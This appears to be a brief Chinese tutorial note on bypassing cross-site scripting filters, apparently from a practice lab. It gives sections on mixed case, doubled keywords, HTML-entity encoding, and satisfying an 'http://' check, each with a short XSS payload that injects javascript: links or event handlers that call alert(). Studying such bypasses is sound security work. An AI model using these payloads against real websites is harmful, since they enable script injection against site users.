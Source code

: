 payload

```js
"><a href='javascript:alert(1)'>
```







## 大小写混写

payload

```js
"ONCLICK="alert(/xss/)
```





## 关键字双写

payload

```js
"> <a hrhrefef='javascriscriptpt:alert(/xss/)'>
```





## 编码绕过

利用工具将javascript:alert(/xss/)语句进行编码

```js
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201204113417614.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70)



## 编码+检查字段绕过

输入内容中必须包含`http://`

payload

```js
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;//http://www.baidu.com       // 注释后面的内容
```




